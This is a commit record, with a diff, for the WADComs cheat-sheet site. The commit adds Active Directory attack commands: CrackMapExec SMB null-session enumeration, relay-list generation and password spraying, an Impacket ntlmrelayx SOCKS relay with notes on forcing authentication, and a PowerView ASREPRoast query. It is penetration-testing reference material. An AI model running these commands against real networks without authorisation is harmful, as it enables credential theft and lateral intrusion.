

Before and after one commit to WADComs/WADComs.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide and 1400 px high, scrolled down 9636 px. Shown: the whole window, without its empty margins (226-1053 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 10212 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Added more commands

```diff
--- a/_data/services.yml
+++ b/_data/services.yml
@@ -26,3 +26,7 @@ LDAP:
 NTLM:
   label: NTLM
   description: Command relates to the NTLM protocol.
+
+DNS:
+  label: DNS
+  description: Command relates to the DNS service.
--- /dev/null
+++ b/_wadcoms/Crackmapexec-Enum-SMB-Anonymous.md
@@ -0,0 +1,22 @@
+---
+description: |
+  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will enumerate the SMB host using anonymous access.
+
+  Command Reference:
+
+  	Target IP: 10.10.10.1
+
+command: |
+  crackmapexec smb 10.10.10.1 -u 'a' -p ''
+items:
+  - No_Creds
+services:
+  - SMB
+attack_types:
+  - Enumeration
+OS:
+  - Linux
+references:
+  - https://github.com/byt3bl33d3r/CrackMapExec
+  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
+---
--- /dev/null
+++ b/_wadcoms/Crackmapexec-Enum-SMB-Null.md
@@ -0,0 +1,22 @@
+---
+description: |
+  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will enumerate the SMB host using a null session.
+
+  Command Reference:
+
+  	Target IP: 10.10.10.1
+
+command: |
+  crackmapexec smb 10.10.10.1 -u '' -p ''
+items:
+  - No_Creds
+services:
+  - SMB
+attack_types:
+  - Enumeration
+OS:
+  - Linux
+references:
+  - https://github.com/byt3bl33d3r/CrackMapExec
+  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
+---
--- /dev/null
+++ b/_wadcoms/Crackmapexec-Enum-SMB-Relay-List.md
@@ -0,0 +1,22 @@
+---
+description: |
+  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. The following command will enumerate a list of SMB hosts with signing not enforced, allowing you to relay credentials to them using ntlmrelayx.py.
+
+  Command Reference:
+
+  	SMB Hosts: smb_hosts.txt
+
+command: |
+  crackmapexec smb smb_host.txt --gen-relay-list output.txt
+items:
+  - No_Creds
+services:
+  - SMB
+attack_types:
+  - Enumeration
+OS:
+  - Linux
+references:
+  - https://github.com/byt3bl33d3r/CrackMapExec
+  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
+---
--- /dev/null
+++ b/_wadcoms/Crackmapexec-SMB-Password-Spray.md
@@ -0,0 +1,26 @@
+---
+description: |
+  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will perform password spraying over SMB against the domain controller.
+
+  Command Reference:
+
+  	Domain Controller IP: 10.10.10.1
+
+  	Username List: users.txt
+
+  	Password: password123
+
+command: |
+  crackmapexec smb 10.10.10.1 -u users.txt -p password123
+items:
+  - Username
+services:
+  - SMB
+attack_types:
+  - Exploitation
+OS:
+  - Linux
+references:
+  - https://github.com/byt3bl33d3r/CrackMapExec
+  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
+---
--- /dev/null
+++ b/_wadcoms/Impacket-NTLMRelayX-Socks.md
@@ -0,0 +1,26 @@
+---
+description: |
+  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).
+
+  The below command creates an SMB relay server that targets the IP 10.10.10.1, meaning any credentials that the SMB server recieves, gets relayed to that IP to attempt to authenticate and create a socks connection to the host. In order for the SMB server to recieve credentials to relay, dementor.py or Petitpotam can be used to trigger a forced authentication from the IP it's targeting to an attacker controlled SMB server.
+
+  Command Reference:
+
+  	Target IP: 10.10.10.1
+
+command: |
+  python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -socks
+items:
+  - No_Creds
+services:
+  - NTLM
+  - SMB
+OS:
+  - Linux
+  - Windows
+attack_types:
+  - Exploitation
+references:
+  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
+  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
+---
--- a/_wadcoms/Kerbrute-PasswordSpray.md
+++ b/_wadcoms/Kerbrute-PasswordSpray.md
@@ -12,7 +12,7 @@ description: |
 command: |
   kerbrute passwordspray -d test.local domain_users.txt password123
 items:
-  - Password
+  - Username
 services:
   - Kerberos
 OS:
--- /dev/null
+++ b/_wadcoms/PowerView-Get-DomainUser-ASREP.md
@@ -0,0 +1,23 @@
+---
+description: |
+  PowerView is a module within PowerSploit written in PowerShell to gain network situational awareness on Windows domains. The below command will query the Domain Controller for all ASREPRoastable users.
+
+  Command Reference:
+
+  	Target IP: 10.10.10.1
+
+  	Domain: test.local
+
+command: |
+  Get-DomainUser -Domain test.local -DomainController 10.10.10.1 -PreauthNotRequired -Properties SamAccountName
+
+items:
+  - Shell
+OS:
+  - Windows
+attack_types:
+  - Enumeration
+references:
+  - https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
+  - https://www.attackdebris.com/?p=470
+---
```
Also changed, not shown: _wadcoms/Impacket-NTLMRelayX-WPAD.md (added, +26 -0 lines), _wadcoms/Mitm6.md (added, +23 -0 lines), _wadcoms/Responder-Analyze.md (added, +24 -0 lines).
